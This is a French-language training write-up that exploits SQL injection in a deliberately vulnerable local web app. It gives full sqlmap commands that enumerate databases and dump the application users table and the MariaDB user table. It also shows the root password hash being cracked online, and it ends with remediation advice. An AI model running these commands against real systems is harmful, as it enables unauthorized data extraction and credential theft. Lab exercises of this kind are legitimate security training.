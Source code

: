 # SQL Injection Training App - Rapport

## Objectif

Ce projet vise à exploiter des vulnérabilités d'injection SQL pour extraire des informations sensibles d'une application web vulnérable. Les objectifs spécifiques sont :

1. **Extraire le schéma de la base de données** et le sauvegarder dans un fichier `.csv`.
2. **Lister les utilisateurs de l'application** et les sauvegarder dans un fichier `.csv`.
3. **Lister les utilisateurs de MariaDB** et les sauvegarder dans un fichier `.csv`.
4. **Obtenir et documenter le mot de passe de l'utilisateur root de MariaDB** par force brute.
5. **Challenge 2 : Obtenir et documenter le mot de passe de l'administrateur de l'application**.

---

## Pré-requis

- **sqlmap** : Outil pour automatiser la détection et l'exploitation des vulnérabilités d'injection SQL.
- **MariaDB** : Système de gestion de base de données utilisé par l'application cible.
- **Accès à l'application web vulnérable**.

---

## Étapes Réalisées

### 1. Identification des Vulnérabilités d'Injection SQL

Lors des tests initiaux, l'insertion d'une apostrophe (`'`) dans le champ `uid` du formulaire `register.php` a généré une erreur SQL, révélant l'utilisation de MariaDB. Nous avons utilisé `sqlmap` pour automatiser le processus d'exploitation.

### 2. Extraction du Schéma de la Base de Données

**Commande utilisée :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
--data="uid=test&password=test&name=test&descr=test" \
--dbs --batch
```

**Résultat :**

Les bases de données suivantes ont été identifiées :

- `information_schema`
- `mysql`
- `performance_schema`
- `sqlitraining`
- `sys`

Nous avons extrait le schéma de la base de données `sqlitraining` :

```bash
sqlmap -u "http://localhost:8888/register.php" \
--data="uid=test&password=test&name=test&descr=test" \
-D sqlitraining --tables --batch
```

**Tables trouvées :**

- `products`
- `users`

**Dump du schéma dans un fichier `.csv` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
--data="uid=test&password=test&name=test&descr=test" \
-D sqlitraining --dump --dump-format=CSV --batch
```

### 3. Liste des Utilisateurs de l'Application

En ciblant la table `users` de la base `sqlitraining`, nous avons extrait les utilisateurs de l'application.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
--data="uid=test&password=test&name=test&descr=test" \
-D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Résultat :**

Les informations des utilisateurs ont été sauvegardées dans un fichier `.csv`.

### 4. Liste des Utilisateurs de MariaDB

Nous avons ciblé la base de données `mysql`, qui contient les informations des utilisateurs de MariaDB.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
--data="uid=test&password=test&name=test&descr=test" \
-D mysql -T user --dump --dump-format=CSV --batch
```

**Résultat :**

La liste des utilisateurs de MariaDB a été extraite et sauvegardée dans un fichier `.csv`.

### 5. Récupération du Mot de Passe de l'Utilisateur Root de MariaDB

En examinant les données extraites de la table `user` de la base `mysql`, nous avons récupéré le hachage du mot de passe de l'utilisateur `root`.

**Hachage récupéré :**

```
81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
```

Nous avons utilisé un outil de déchiffrement en ligne pour casser le hachage (par exemple, CrackStation).

**Mot de passe obtenu :**

```
root
```

### 6. Challenge 2 : Récupération du Mot de Passe de l'Administrateur de l'Application

En analysant la table `users` de la base `sqlitraining`, nous avons identifié l'utilisateur administrateur.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
--data="uid=test&password=test&name=test&descr=test" \
-D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Mot de passe de l'administrateur :**

```
admin
```

---

## Fichiers Générés

- **Schéma de la base de données** : `database_schema.csv`
- **Liste des utilisateurs de l'application** : `application_users.csv`
- **Liste des utilisateurs de MariaDB** : `mariadb_users.csv`
- **Mot de passe root de MariaDB** : `mariadb_root_password.txt`
- **Mot de passe administrateur de l'application** : `application_admin_password.txt`

---

## Conclusion

Grâce à l'exploitation des vulnérabilités d'injection SQL présentes dans l'application, nous avons pu extraire des informations sensibles, démontrant l'importance de sécuriser les entrées utilisateur.

---

## Remarques

Pour améliorer la sécurité de l'application, il est recommandé de :

- Utiliser des requêtes préparées (requêtes paramétrées) pour éviter les injections SQL.
- Valider et assainir toutes les entrées utilisateur.
- Mettre à jour régulièrement les systèmes de gestion de base de données et les applications web pour bénéficier des derniers correctifs de sécurité.

---
